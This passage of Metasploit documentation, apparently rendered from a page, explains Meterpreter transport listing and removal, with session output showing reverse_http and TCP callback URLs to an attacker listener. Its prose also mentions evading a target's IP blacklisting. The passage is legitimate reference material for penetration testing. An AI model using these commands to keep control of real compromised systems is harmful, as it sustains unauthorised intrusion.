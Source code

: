 ```

[*] 10.1.10.35 - Meterpreter session 3 closed.  Reason: User exit
msf exploit(handler) > [*] Meterpreter session 4 opened (10.1.10.40:5105 -> 10.1.10.40:46245) at 2015-06-02 20:55:07 +1000

msf exploit(handler) > sessions -i 4
[*] Starting interaction with 4...

meterpreter > transport list
Session Expiry  : @ 2015-06-09 19:56:05

    Curr  URL                                                                                                    Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                    ---------  -----------  ----------
    *     http://10.1.10.40:5105/jpdUntK69qiVKZQrwETonAkuobdXaVJovSXlqkvd7s5WB58Xbc3fNoZ5Cld4kAfVJgbVFsgvSpH_N/  100000     50000        2500
          tcp://10.1.10.40:5005                                                                                  300        3600         10
          tcp://10.1.10.40:6000                                                                                  300        3600         10
```

### Removing transports

It is also possible to remove transports from the underlying transport list. This is valuable in cases where you want Meterpreter to always callback on _stageless_ listeners (allowing you to avoid the unnecessary upload of the second stage), or when you have a listener located at an IP address that may have been blacklisted by your target as a result of your post-exploitation shenanigans.

The command is similar to `add` in that it takes a subset of the parameters, and then adds a new one on top of it:

* `-t` - The transport type.
* `-l` - The `LHOST` value (unless it's `bind_tcp`).
* `-p` - The `LPORT` value.
* `-u` - This value is only required for `reverse_http/s` transports and needs to contain the URI of the transport in question. This is important because there might be multiple listeners on the same IP and port, so the URI is what differentiates each of the sessions.

```
[*] Starting interaction with 2...

meterpreter > transport list
Session Expiry  : @ 2015-07-10 07:39:08

    Curr  URL                                                                                                             Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                             ---------  -----------  ----------
    *     tcp://10.1.10.40:5000                                                                                           300        3600         10
          http://10.1.10.40:9090/jYGS61OX8On-Dv8Pq5v9FAJAEobAlrL4J2FBOf_3DsnZzCJAY6-Dh_8AeWdrkFwRbQdvz4vOo8let4huygVLPJ/  300        3600         10

meterpreter > transport remove -t reverse_http -l 10.1.10.40 -p 9090 -u jYGS61OX8On-Dv8Pq5v9FAJAEobAlrL4J2FBOf_3DsnZzCJAY6-Dh_8AeWdrkFwRbQdvz4vOo8let4huygVLPJ
[*] Removing transport ...
[+] Successfully removed reverse_http transport.
meterpreter > transport list
Session Expiry  : @ 2015-07-10 07:39:08

    Curr  URL                    Comms T/O  Retry Total  Retry Wait
    ----  ---                    ---------  -----------  ----------
    *     tcp://10.1.10.40:5000  300        3600         10
```

  [Timeout documentation]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Timeout-Control
  [Reliable Network documentation]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Reliable-Network-Communication